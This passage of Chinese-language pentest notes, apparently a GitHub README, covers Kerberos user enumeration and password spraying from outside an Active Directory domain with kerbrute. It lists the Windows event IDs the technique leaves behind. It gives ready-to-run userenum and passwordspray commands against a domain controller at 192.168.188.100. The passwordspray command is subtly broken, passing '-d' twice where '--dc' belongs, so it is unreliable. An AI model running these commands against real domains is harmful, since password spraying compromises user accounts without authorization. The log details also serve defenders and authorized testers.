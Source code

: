 

### 域外用户枚举

在域外也能和域进行交互的原因，是利用了kerberos协议认证中的AS-REQ阶段。只要我们能够访问域控88(kerberos服务)端口，就可以通过这种方式去枚举用户名并且进行kerberos协议的暴力破解了！

Kerbrute使用的是kerberos pre-auth协议，不会产生大量的日志 (4625 - An account failed to log on)，但是会产生以下日志：

-   口令验证成功时产生日志 (4768 - A Kerberos authentication ticket (TGT) was requested)
-   口令验证失败时产生日志 (4771 - Kerberos pre-authentication failed)

#### 攻击方法

##### kerbrute_windows_amd64.exe

>   [kerbrute_windows_amd64.exe](https://github.com/ropnop/kerbrute/releases)

在这里我们需要获取dc的ip，域名。将想要爆破的用户放入user.txt表中，这样就可以获取到了！

```
kerbrute_windows_amd64.exe userenum --dc 192.168.188.100 -d ghost.com user.txt
```

![image-20220318191443842](README/image-20220318191443842.png)

之后爆破

```
kerbrute_windows_amd64.exe passwordspray -d 192.168.188.100 -d ghost.com Admin123!
```

![image-20220318191719021](README/image-20220318191719021.png)
